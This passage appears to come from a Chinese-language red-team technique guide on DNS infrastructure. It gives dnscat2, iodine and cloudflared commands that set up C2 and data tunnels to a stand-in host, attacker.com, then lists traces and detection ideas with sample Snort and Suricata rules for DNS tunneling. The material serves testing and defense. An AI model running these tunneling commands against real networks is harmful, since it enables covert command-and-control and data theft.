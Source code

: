    - 启动BIND：
     ```bash
     sudo systemctl start named
     ```
3. **DNS隧道测试**：
   - 使用dnscat2建立C2通道：
     ```bash
     # 服务端
     dnscat2 --dns server=0.0.0.0,port=53
     # 客户端
     dnscat2 --dns server=attacker.com,port=53
     ```
   - 使用iodine建立数据隧道：
     ```bash
     iodine -f -P secretkey attacker.com
     ```
4. **DoH测试**：
   - 配置Cloudflared支持DoH：
     ```bash
     cloudflared --url https://attacker.com/dns-query
     ```
5. **结果分析**：
   - 验证DNS服务器是否响应C2指令或隧道数据。
6. **日志收集**：
   - 收集DNS服务器、防火墙和网络流量日志，分析查询模式和流量特征。

## 测试留痕
DNS服务相关活动可能留下以下痕迹：
- **DNS查询**：高频TXT、NULL或异常记录类型的查询。
- **网络流量**：异常DNS流量，如大流量请求或非标准端口通信。
- **防火墙/IDS告警**：触发DNS隧道或C2相关的检测规则。
- **Web服务器日志**：与钓鱼域名相关的HTTP请求，可能由攻击者的DNS服务器解析。

## 检测规则/思路
由于DNS服务活动多发生在目标组织视野之外，检测需结合多种手段：
- **DNS流量监控**：
  - 检测异常DNS查询模式，如高频TXT记录查询或异常域名。
  - 示例Snort规则：
    ```snort
    alert udp any any -> any 53 (msg:"Suspicious DNS TXT Query"; content:"TXT"; threshold: type threshold, track by_src, count 50, seconds 60; sid:1000001;)
    ```
  - 使用DNS防火墙（如Cloudflare Gateway）拦截可疑DNS请求。
- **网络流量分析**：
  - 使用IDS/IPS（如Snort、Suricata）检测DNS隧道流量，关注大流量DNS请求或非标准端口。
  - 示例Suricata规则：
    ```suricata
    alert dns any any -> any any (msg:"Potential DNS Tunneling"; dns_query; content:"attacker.com"; threshold: type threshold, track by_src, count 100, seconds 60; sid:1000002;)
    ```
- **威胁情报整合**：
  - 结合威胁情报平台（如微步在线、奇安信），识别已知的恶意DNS服务器IP或域名。
  - 监控WHOIS数据库，检测与攻击相关的域名注册。
- **日志关联**：
  - 使用SIEM（如Splunk、ELK）关联DNS和网络流量日志，检测异常查询或C2模式。
  - 监控DoH流量，检查异常的HTTPS请求模式。
